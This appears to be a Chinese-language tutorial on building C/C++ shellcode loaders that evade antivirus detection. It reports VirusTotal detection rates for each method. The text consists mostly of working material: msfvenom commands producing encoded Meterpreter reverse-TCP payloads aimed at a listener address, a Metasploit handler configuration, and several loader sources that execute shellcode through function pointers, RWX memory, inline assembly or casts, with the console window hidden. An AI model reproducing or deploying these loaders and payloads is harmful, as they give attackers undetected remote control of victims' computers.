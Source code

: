 ## C/C++加载shellcode免杀

C/C++加载shellcode⼿⼯编译的⽅法，⼀般分为两种⽅式：

~~~
1、C/C++源码+shellcode直接编译，其中对shellcode的执⾏可以使⽤函数指针执⾏、汇编指令执
⾏、申请动态内存等⽅式，且shellcode可进⾏⼀些加密混淆处理；⽐如免杀⼯具veil和Venom都是
使⽤了类似的⽅法。
2、使⽤加载器加载C/C++代码，如shellcode_launcher之类。
~~~

### C/C++源码编译

~~~
指针执行函数
申请动态内存加载shellcode
嵌入汇编指令
强制类型转换
汇编花指令

~~~

#### ⽅法1:指针执⾏(VT免杀率13/69)

这是最常规的⼀种加载shellcode的⽅法，使⽤指针来执⾏函数，所以免杀效果可能⽐较⼀般，先⽤Msfvenom⽣成c语⾔的shellcode，为了提⾼免杀效果，使⽤了 shikata_ga_nai 编码器

~~~
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.43.237 lport=10001 -f exe -o shell.exe
~~~

~~~c
unsigned char buf[] = 
"shellcode"; #pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
//windows控制台程序不出黑窗口
main()
{
 ( (void(*)(void))&buf)();
}
~~~

~~~
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.43.237
set LPORT 10001
set EnableStageEncoding true
~~~



#### ⽅法2:申请动态内存加载(VT免杀率24/71)

~~~c
#include <Windows.h>
#include <stdio.h>
#include <string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
//windows控制台程序不出黑窗口
unsigned char buf[] = 
"shellcode";
main()
{
char *Memory; 
 Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(Memory, buf, sizeof(buf));
 ((void(*)())Memory)();
}
~~~



#### ⽅法3:嵌⼊汇编加载(VT免杀率12/71)

~~~c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";
void main()
{
 __asm
 {
 
 mov eax, offset shellcode
 jmp eax
 }
}
~~~

#### ⽅法4:强制类型转换(VT免杀率9/70)

~~~c
#include <windows.h>
#include <stdio.h>
unsigned char buf[] ="";
void main()
{
 ((void(WINAPI*)(void))&buf)();
}
~~~

#### ⽅法5:汇编花指令(VT免杀率12/69)

~~~c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";
void main()
{
 __asm
 {
 
 mov eax, offset shellcode
 _emit 0xFF 
 _emit 0xE0
 }
}
~~~

#### ⽅法6/XOR加密(VT免杀率15/71)

~~~
需要使⽤⼀个⼯具 https://github.com/Arno0x/ShellcodeWrapper
先⽤msfvenom⽣成⼀个raw格式的shellcode

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00'
lhost=10.211.55.2 lport=3333 -f raw > shellcode.raw

~~~



































